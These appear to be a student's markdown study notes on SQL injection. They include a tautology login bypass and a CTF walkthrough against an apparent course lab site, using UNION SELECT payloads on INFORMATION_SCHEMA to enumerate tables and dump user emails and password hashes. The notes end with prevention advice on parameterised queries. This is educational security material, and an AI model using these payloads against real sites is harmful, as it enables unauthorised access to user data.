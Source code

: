 # SQLi 

SQLi has existed for a number of years, yet it continues to be a common problem on many websites. 

When probing for SQL vulnerabilities, it is important to consider which SQL version the server is using. 

Popular versions inlude: 
* mySQL 
* SQLlite 
* PostgreSQL 
* MongoBD 

It is also important to consider the version they're using as small details in updates may be a unnotible, but perhaps dangerous entry point. 

Before considering any points of entry, one must first understand the website. What is the purpose of the website, what is it trying to protect and what can you possibly recon from it? 

Forms may be vulnerable to particular characters, including: 

```
‘”;<lol/>../--#`ls 
```

These characters allow one to change the semanitics of the code, altering the intentions of the developer who had not considered a potentially harmful input. 

## How does SQLi work? 

SQL, or Stuctured Query Language allows you to access and manipulise large databases through simple english. It is designed to be intuitive to understand. 

However, because it is mostly 'english' it is prone to dangerous attacks which could potentially change the query itself. 

Consider 

``` 
select * from users where username="admin" and password="password" limit 1; 
``` 

This query is straightforward, get the (one) user who has username "admin" and password "password."

The query is not designed to understand that `admin` and `password` is an input data and the rest is code to be executed using the input data. 

This is a common problem within vulnerabilities: mixing `data` and `control`. 

As a result we can manipulate the to get all users who are "admin" using

```
select * from users where username="admin" and password="x" or "1"="1" limit 1;
```

Note how we have ended the quotation even though that was not the developer's intention. 

## Where to start 

1) Test for breaking a SQL query using different quotations [", ', `] 
2) Find which SQL version it is 
3) Try to get everything in the table

## Weekly CTF Testing for SQLi [bigapp.quoccabank.com]
0) Notice that the site calls an api after sanitising the request so we have to make the call using the api url directly 

```
https://quoccabank.com/api/v1/bproducts?q=PAYLOAD
```
1) Tested for `'` (single quotation mark) and got the output 

```
Error 1064: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR pname LIKE ‘%PAYLOAD'%‘) AND bu IS NOT NULL) ORDER BY ’ at line 1

```

From this, we can tell that the server is using MySQL, and is searching using wildcard `%`, then ordering by the cateogory. 

We also know there are two columns named  `bu` and `cateorgory`. (Well you also know )from the site) 

2) Find all the columns using `INFORMATION_SCHEMA.COLUMNS` 

The information_schema allows you access the database meta-data(?). 

See [documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) for more information. (Although they're not very good haha) 

First, we have to prob to see how many columns we are required to query from bproducts (since they always have to match). 

We found that there are 6 items. 
``` 
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.COLUMNS; -- COMMENT 
``` 

Now we have the correct syntax, we want to find the tables available. 

``` 
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.tables; -- COMMENT 
``` 
Will change the original query 
```
SELECT * FROM (("%" OR pname LIKE %PAYLOAD%') AND  bu IS NOT NULL) ORDER BY cateogory 
```

to 
```
SELECT * FROM (("%" OR pname LIKE '%'')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.tables; -- COMMENT %') AND  bu IS NOT NULL) ORDER BY cateogory 
```

This query comments out the second half of the original query altogether.  

The result  
```
bproducts
users
```
3) Look up the column names for the two tables `bproducts` and `users`

```
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='bproducts'; -- COMMENT  

Result: Bproducts={id, pname, category, code, bu, owner}

Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6,  from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'; -- COMMENT

Result: Users={id, fname, lname, type, userid, email, mobile, city, state, postcode, password}

```
Note, we must match the number of columns within the query to the number the columns the queried table contains. 

4) From here, we can do many thing.. The first thing that comes to mind being, how can we obtain privileges? 

```
Input: random_string')) UNION SELECT email, userid, password, type, fname, lname from users -- .
```
From here, we can see the email `admin@quoccabank.com` and the password is a hash (Which we can reverse MD5 lookup). 

5) Then we can try to obtain sensitive information which the site hides 

```
Input: random_string') UNION SELECT email, userid, password, type, fname, lname from users -- .
```

## Preventing SQLi 

We can solve our confusion between `code` and `data` by using **paramatised queries**. 

For example 
```
query = "SELECT * from Customers WHERE CustomerID = @CustomerId" 
SQL_Command cmd = new SQL_Command(query); 
command.Paramters.Add(SQL_Paramter("@CustomerID", System.Data.SQLDbType.Int)); 

... 

command.Paramters["@CustomerId"].Value = 1; 
```

We should always be using parameterization to perform a query. 

Other defensive strategies include
* Application Layer 
    1) Handling error messages gracefully - which will make the injection a blind injection
    2) Filter user input by using parametised queries 
* Database Layer
    1) Minimise privilege level of database user
    2) Prevent arbitray connections to your database server 

## Reading Materials Provided 

* [Microsoft: Preventing SQLi](https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648339(v=pandp.10)?redirectedfrom=MSDN)
* [Pentester Lab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* [SQL Map](https://github.com/sqlmapproject/sqlmap)
* [Anatomy of an Attack: SQLi to Shell](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)